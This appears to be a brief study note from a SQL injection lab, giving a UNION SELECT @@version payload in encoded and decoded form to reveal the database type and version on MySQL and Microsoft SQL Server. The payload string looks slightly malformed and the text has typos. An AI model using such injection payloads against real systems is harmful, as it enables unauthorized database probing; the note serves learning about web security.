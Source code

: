 ## SQL injection attack, querying the database type and version on MySQL and Microsoft

## just use:
- '%20UNION%20SELECT%20@@version'abc'%2c%20'def'%23 (Selected text)
- ' UNION SELECT @@version'abc', 'def'# (Decoded from)

Remember the @@version, just for Mysql and Mifrosoft. Open SQL Injection Cheat Sheet for more information
